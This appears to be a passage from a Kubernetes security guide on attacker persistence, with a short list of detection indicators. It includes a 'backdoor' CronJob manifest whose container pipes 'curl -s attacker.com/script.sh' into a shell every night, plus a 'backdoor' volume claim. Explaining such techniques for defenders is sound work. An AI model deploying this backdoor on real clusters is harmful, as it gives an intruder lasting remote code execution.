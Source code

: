 #### Persistent Volumes
Using persistent storage to maintain access:

```yaml
# Malicious persistent volume claim
apiVersion: v1
kind: PersistentVolumeClaim
metadata:
  name: backdoor-storage
spec:
  accessModes:
  - ReadWriteOnce
  resources:
    requests:
      storage: 1Gi
  # Contains malicious scripts or data
```

#### CronJobs for Scheduled Access
```yaml
apiVersion: batch/v1
kind: CronJob
metadata:
  name: backdoor-cron
spec:
  schedule: "0 2 * * *"  # Daily at 2 AM
  jobTemplate:
    spec:
      template:
        spec:
          containers:
          - name: backdoor
            image: busybox
            command:
            - /bin/sh
            - -c
            - |
              # Malicious script execution
              curl -s attacker.com/script.sh | sh
          restartPolicy: OnFailure
```

### Persistence Detection

#### Monitoring Indicators
- Unexpected service account creations
- New RBAC bindings with elevated privileges
- Suspicious container images or registries
- Unusual network connections
- Persistent volume access patterns
- Scheduled job modifications
